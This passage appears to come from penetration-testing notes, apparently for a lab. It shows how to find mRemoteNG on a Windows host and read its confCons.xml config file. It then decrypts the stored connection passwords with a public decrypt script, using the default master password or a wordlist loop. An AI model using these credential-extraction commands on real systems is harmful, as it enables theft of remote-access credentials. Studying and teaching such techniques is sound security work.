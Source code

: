         $INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation

        $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize

        # suppose list of installed apps includes mRemoteNG
        # it is a tool used to connect to remote systems

        # it uses a default hardcoded master password 'mR3m', so we can check if config file is unprotected and contains creds
        # by default, config file is located in %USERPROFILE%\APPDATA\Roaming\mRemoteNG

        ls C:\Users\julio\AppData\Roaming\mRemoteNG
        # list config files

        cat confCons.xml
        # view config file

        # this document contains the master password under 'Protected' attribute and the encrypted password under 'password'
        # to crack this, we can use the mRemoteNG-Decrypt script - https://github.com/haseebT/mRemoteNG-Decrypt
        ```

        ```sh
        # on attacker
        python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig=="
        # decrypt the password
        # this works if user did not set a custom master password
        # if we know the master password we can use -p flag

        # we can also try cracking the password with multiple master passwords from wordlist
        for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done
        ```
    